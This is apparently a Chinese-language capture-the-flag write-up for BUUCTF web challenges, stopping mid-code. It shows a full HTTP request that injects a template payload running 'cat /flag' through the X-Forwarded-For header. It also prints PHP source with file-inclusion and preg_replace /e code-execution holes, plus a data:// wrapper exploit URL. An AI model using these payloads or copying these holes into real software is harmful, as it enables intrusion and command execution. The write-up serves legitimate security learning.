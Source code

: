 根据题目的提示,修改xff头,发现可以修改ip,但是修改成127.0.0.1后没有啥东西

后来在fuzz的过程中发现,有ssti漏洞

```
GET /flag.php HTTP/1.1
Host: node3.buuoj.cn:27223
Upgrade-Insecure-Requests: 1
X-Forwarded-For: {system('cat /flag')}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://node3.buuoj.cn:27223/
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=gppova7f172e56f11qlrffpb64; JSESSIONID=0740A2433DEA975EE0C0C0CC0D0257D0
Connection: close
```



## ZJCTF，不过如此

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```



```
http://e121170e-2c2b-419c-909f-05b530db4272.node3.buuoj.cn/?text=data://text/plain,I%20have%20a%20dream&file=next.php
```

next.php

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
```